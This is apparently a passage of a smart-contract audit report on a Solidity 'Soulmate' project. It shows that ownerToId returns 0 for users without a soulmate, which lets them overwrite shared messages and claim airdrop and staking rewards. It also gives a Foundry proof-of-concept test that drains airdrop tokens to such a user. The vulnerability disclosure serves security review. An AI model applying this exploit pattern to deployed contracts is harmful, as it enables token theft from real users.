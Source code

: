 ### 2. Soulmate.sol
`Soulmate::writeMessageInSharedSpace` allows soulmates to share messages with them and should not allow non-soulmate users or other soulmates to hinder with their messaging.
But `ownerToId` returning 0 for all non-soulmate users will allow them to hinder and manipulate the messages of soulmates with `id = 0`.
Therefore, allowing malicious users to put up hate messages in the shared space of soulmates with `id = 0` and they can end up divorcing due to other malicious users circulating hate messages in their shared space.
```cpp
    function writeMessageInSharedSpace(string calldata message) external {
@>  uint256 id = ownerToId[msg.sender];                    <--- Returns 0 for non-soulmate users
    sharedSpace[id] = message;                                      <--- Updates the message for id = 0, even if the caller is not a associated soulmate with id = 0
    emit MessageWrittenInSharedSpace(id, message);
    }
```

### 3. Staking.sol
`Staking::claimRewards` allows users to claim rewards for their staked amount, but `soulmateId` calculated for the caller evaluates to 0 for non-soulmate users giving them benefits even if they have not staked their amount for a week or more.

## PoC
Add the below test in file: `test/unit/AirdropTest.t.sol` and also import `console2` from `BaseTest.t.sol` inside the `AirdropTest.t.sol`

Run the test:
```
forge test --mt test_UsersCanReceiveAirdropWithoutHavingASoulmate -vv
```
```cpp
function test_UsersCanReceiveAirdropWithoutHavingASoulmate() public {
    vm.prank(soulmate1);
    soulmateContract.mintSoulmateToken();  // 💖

    // 10 days later another user arrives
    vm.warp(block.timestamp + 10 days);

    vm.prank(soulmate2);
    soulmateContract.mintSoulmateToken();  // ❤️

    // here this person is not in relation (doesn't hold any soulbound nft)
    address single = makeAddr("single");

    // 5 days later
    vm.warp(block.timestamp + 5 days);

    assertEq(loveToken.balanceOf(single), 0);

    // even though the person is single but still is able to claim Airdrop
    vm.prank(single);
    airdropContract.claim();

    assert(loveToken.balanceOf(single) > 0);

    // reason: as for people not in relation, the `ownerToId` returns 0 as token id
    // and the creation timestamp of token id 0 will be used, thus user will receive: 15 - 10 = 5 tokens
    console2.log("Love Tokens Of User who is Single received from Airdrop Claim:", loveToken.balanceOf(single));
}
```
